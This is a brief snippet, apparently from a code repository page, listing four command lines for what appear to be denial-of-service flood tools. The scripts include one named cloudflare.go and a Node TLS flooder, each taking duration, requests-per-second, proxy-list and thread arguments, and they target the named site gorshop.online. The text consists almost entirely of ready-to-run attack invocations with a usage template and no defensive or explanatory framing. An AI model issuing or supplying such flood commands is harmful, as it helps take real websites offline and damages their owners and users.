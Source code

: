 tool 1
go run cloudflare.go https://gorshop.online 12000 100000 proxy.txt 100000

tool 2
node tlsv2.js https://gorshop.online 1200 100000

tool 3
./a <target> <duration> <rps> <proxylist> <threads>

tool 4
go run main.go https://gorshop.online 120000 100000 proxy.txt 100000
